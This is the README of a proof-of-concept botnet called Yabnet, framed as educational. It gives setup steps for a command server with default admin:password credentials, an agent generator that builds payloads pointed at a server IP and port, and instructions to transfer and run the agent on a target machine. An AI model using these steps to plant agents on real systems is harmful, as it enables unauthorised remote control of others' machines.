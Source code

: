 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.

## Disclaimer
Yabnet is a proof of concept tool which is only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction
**Yabnet is currently under construction.**

## Installation 

**Yabnet requires python3.7++**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Operation 

### Server setup
```
<Change MASTERNAME and MASTERPASSWORD in /server/server.py>
<Default is admin:password>

python3 ./server/server.py
```

### Agent setup

There are two options to setup agents. One is to create a static executable through freezing. Another way is to just simply create a `.py` file.

**1. Freezing - Executable**
```
python3 /opt/yabnet/agent/generator.py -i <server_ipaddress> -p <server_port> -f 
Example) python3 /opt/yabnet/agent/generator.py -i localhost -p 5000 -f 
```

**2. Plain python file**
```
python3 /opt/yabnet/agent/generator.py -i <server_ipaddress> -p <server_port>
Example) python3 /opt/yabnet/agent/generator.py -i localhost -p 5000
```

**Transfer the agent file** 

Transfer either `/opt/yabnet/agent/dist/agent_deploy_staticx` or `/opt/yabnet/agent/agent_deploy.py` to the target machine and run it

### Master setup

After server and the agent is setup, launch the master console.
Default credential for master is `admin:password`
```
python3 ./master/master.py
console# login -r localhost -u <user> -p <password>
console# list
``` 

`< All master console commands have help flag>`
`Example) push -h`

## Demo
<insert youtubelink here>